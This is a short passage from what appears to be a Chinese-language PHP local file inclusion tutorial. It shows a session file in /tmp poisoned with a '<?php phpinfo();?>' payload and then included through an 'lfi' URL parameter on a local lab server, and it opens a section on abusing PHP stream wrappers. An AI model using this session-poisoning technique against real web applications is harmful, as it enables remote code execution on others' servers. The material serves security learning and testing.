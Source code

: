 `bhvvstmq3slmt8uej53plp7kbl`是COOKIE值在服务器上面的命名默认是`sess_bhvvstmq3slmt8uej53plp7kbl`

```
[root@b19f05cf6eb3 tmp]# cat sess_bhvvstmq3slmt8uej53plp7kbl
p1|s:18:"<?php phpinfo();?>";
```

访问`http://127.0.0.1:8099/?lfi=/tmp/sess_bhvvstmq3slmt8uej53plp7kbl`  

![](assets/markdown-img-paste-20180413112031962.png)

注意这里的POST最好一直保持

* 利用协议和封装协议  

此部分测试`allow_url_include On`、`allow_url_fopen On`

[协议官方文档](http://php.net/manual/zh/wrappers.php)

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。
